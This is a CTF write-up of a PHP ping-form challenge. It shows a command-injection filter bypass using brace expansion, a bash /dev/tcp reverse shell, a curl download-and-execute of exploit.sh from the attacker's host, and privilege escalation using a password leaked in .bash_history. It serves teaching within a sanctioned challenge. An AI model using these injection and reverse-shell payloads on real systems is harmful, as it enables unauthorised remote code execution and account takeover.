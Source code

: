 # Connectivity Checker CTF Writeup

This CTF was made by [Shellmates Club](shellmates.club/).

## The full CTF assignment:

Greetings infosec community!
We hope you're doing good as well as your loved ones. Today, we have concocted a new challenge for you in the web security field.  🕸️  
Here is the statement of the challenge:

=-=-=-=-=-=-=-= Task =-=-=-=-=-=-=-=  
My friend made a simple web application that pings hosts on the internet to see if they're up. When I asked him if he thought about the security part, he seemed so confident and started talking about his filter.  
Go there and prove him that his web application is not that secure by leaking the content of /home/ctf/flag.txt.  
Challenge url:  [http://web.challs.shellmates.club/](http://web.challs.shellmates.club/?fbclid=IwAR2PkWxv575RmCa5UQ9XaMiDK4LRWGVfhbxy2Xn-GH-RYwFD8sBRAoji3e4)

Note: No scanning, enumeration, nor brute forcing is required, this challenge is pretty straight forward.  
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

DM us the flag as a proof of compromise, and eventually, your writeup for the challenge so it gets featured in the next post!  
Good luck, and stay safe!  💪🏻

Link to the [Original Post](https://www.facebook.com/shellmates/posts/2894907780565646)

 ## Hints:
 

 In the [Original Post](https://www.facebook.com/shellmates/posts/2894907780565646), they gave us some useful hints:
> - /home/ctf/flag.txt. 

> - Note: No scanning, enumeration, nor brute forcing is required, this challenge is pretty straight forward. 

> - PS: Getting Remote Code Execution is just the first step, you have to escalate your privileges. Note the file permissions on flag.txt.
 
Those hints mean that:
 
 - The file in in ```/home/ctf/flag.txt``` , and the user is `ctf`.
 - We won't make any `scanning`, `enumeration`, nor `brute forcing`.
 - We should get Remote Code Execution and escalate our privileges.

So Let's BEGIN.
## Let's Begin:
From the index page, we know that it is a **PHP** server, so let's use the good old trick: adding **`';`** to the input, and the result was expected,

    Okay BOOMER
So, we can say that they are using an **Input Filter** to stop any input with unwanted characters.
### Understanding the magic behind the PING:
A quick search on `How can we make a Ping test using a server running PHP` will reveal that the PHP execute a command to the server shell, so we have to use that for our advantage.
Let's try submitting `127.0.0.1&&ls`and see what we will have as an output:

```PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.  
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.028 ms  
  
--- 127.0.0.1 ping statistics ---  
1 packets transmitted, 1 received, 0% packet loss, time 0ms  
rtt min/avg/max/mdev = 0.028/0.028/0.028/0.000 ms  
index.php
```
**WOW**, so we are right.
Let's try `127.0.0.1&&cat index.php` and see:
 ```
 Okay BOOMER
 ```
 And Again 🤦‍♂️.
 
 So, we will add the white space to unwanted characters' list, and find another way to execute our commands.
 What if we used *Brace Expansion* ?
 Let's try submitting `127.0.0.1&&{cat,index.php}` :
```
Connectivity Checker
Check out this great pinging tool!
  
if (isset($_POST["ip"])) {  
$ip = $_POST["ip"];  
if (preg_match('/^(.*)[\s;](.*)$/', "$ip")) {  
echo ' ```
if (isset($_POST["ip"])) {  
$ip = $_POST["ip"];  
if (preg_match('/^(.*)[\s;](.*)$/', "$ip")) {  
echo '

Okay BOOMER

';  
}  
else {  
$output = shell_exec('(echo "ping -c 1 '."$ip".'" | bash) 2> /dev/null');  
echo '

Output:  
  
'.nl2br("$output").'

';  
}  
}  
?>
```

**Now we are talking** 😎.

So in order execute our commands, we will use this format.
## Get a Reverse Shell:
Getting a reverse shell is important, so let's set up our NetCat Listener.

> **We should configure our Router for Port Forwarding**

```$ ncat -l -vv -p <PORT>```

Executing the command :
```127.0.0.1&&{bash,-i,>&,/dev/tcp/<External-IP>/<PORT>,0>&1}```
Will give us Nothing, and it's because of the way the `index.php` was written, the variable that gives the IP address to ping sais:
```$output = shell_exec('(echo "ping -c 1 '."$ip".'" | bash) 2> /dev/null');```
So let's find another way to execute the command, and what about making a small *bash script* that handle the command execution for us?
Well, let's try it:
Let's write our ***bash script*** and save it with the name `exploit.sh`:
```
#!/bin/bash

bash -i >& /dev/tcp/<External-IP>/<PORT> 0>&1
```
But the question is: **How can we do it ?**
And the easy answer is to download it to the server is using `wget` or `curl`,but which one ?
Starting with `wget`, so if we execute `localhost&&{ls,/usr/bin/wget}`, we get nothing, which means that it doesn't existe.
What about `curl`?
Well, executing `localhost&&{ls,/usr/bin/wget}`will give us this output:
`/usr/bin/curl`
Now, we know that we should use `curl`, and for that we will need a **simple HTTP server** in order to download the exploit in the server, and I think the simple thing is to create one with just one command using **Python**:
```
$ python3 -m http.server
```

And finally, we are ready to execute our file in the server, and we know that the best place to execute our ***bash script*** from is the `/tmp/`folder, let's do it:
```
127.0.0.1&&{cd,/tmp/}&&{curl,--output,exploit.sh,<External-IP>:<Port>/exploit.sh}&&./exploit.sh
```
And now we are ready.
## What do we have other than 'flag.txt' file ?
As you may know, it's always to check everything we can in order to have the biggest amount of data around our target, and so let's take a look at what do we have in the `/home/ctf/`folder:
```
$ ls -al /home/ctf
```
and the result is:
```
drwxr-xr-x 1 root root 4096 Apr 13 12:30 .  
drwxr-xr-x 1 root root 4096 Apr 12 10:29 ..  
-rw-r--r-- 1 ctf ctf 42 Apr 13 12:30 .bash_history  
-rw-r--r-- 1 ctf ctf 220 May 15 2017 .bash_logout  
-rw-r--r-- 1 ctf ctf 3526 May 15 2017 .bashrc  
-rw-r--r-- 1 ctf ctf 675 May 15 2017 .profile  
-r-------- 1 ctf ctf 46 Apr 9 09:51 flag.txt
```
Let's check the `.bash_history` file and see:
```
ls -al  
sduo -s  
Qu4r4Nt1n3d!@  
sudo -s  
exit
```
And it looks like someone has misspelled the word `sudo`, but what about this strange string `Qu4r4Nt1n3d!@` ?
So we know that we should enter our password when we want to execute the `sudo -s` command, and it seems like our friend who misspelled the word `sudo`, also he wrote his password in the terminal before realizing that.
## The Last Step:
After we found what looks like the `ctf` user's password, let's try to login using his name and password, for that we need to use the command `su`, but the problem we face is that is returns:
```
su: must be run from a terminal
```
So, the way to solve it is to upgrade our limited shell, and one of the ways to do so is by using the **Python**'s [pty module](https://docs.python.org/2/library/pty.html), so lets do it:
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
```
 And now if we check for the `su`command:
```
$ su - ctf
```
It asks us for the password, and by entering the password we found above:
```
Password: Qu4r4Nt1n3d!@
```
AND WE DID IT !
The final thing to do is: '*you guessed it*'
```
$ cat flag.txt
shellmates{b3_c4r3FuL_w1t|-|_CMD_1nj3ct1i0N!}
````
# Final Thoughts:
I think this challenge was really well build by the [Shellmates Club](shellmates.club/), because it tries to give us an idea about how things work under the hood, and how a simple thing like forgetting to delete the `bash history` can take us down.
# Finally:
Special thanks to [Shellmates Club](shellmates.club/) for this amazing opportunity to learn,
and also, a special thanks to:
**[Bilal Retiat](https://philomath213.github.io/),  [Redouane Niboucha](https://red0xff.github.io/) and Abdelaziz BOUHOUN**
for their amazing help they gave me in my first CTF.